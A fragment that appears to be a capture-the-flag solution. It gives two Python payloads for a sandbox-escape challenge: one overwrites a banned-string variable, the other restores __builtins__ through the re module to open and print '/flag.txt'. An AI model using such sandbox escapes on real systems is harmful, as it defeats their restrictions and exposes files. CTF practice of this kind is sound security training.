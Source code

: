 payload 1: globals['banned'] = 'string_we_are_never_going_to_use'
payload 2: __builtins__ = globals['re'].__builtins__; print(__builtins__['open']('/flag.txt', 'rb').read());
EOL


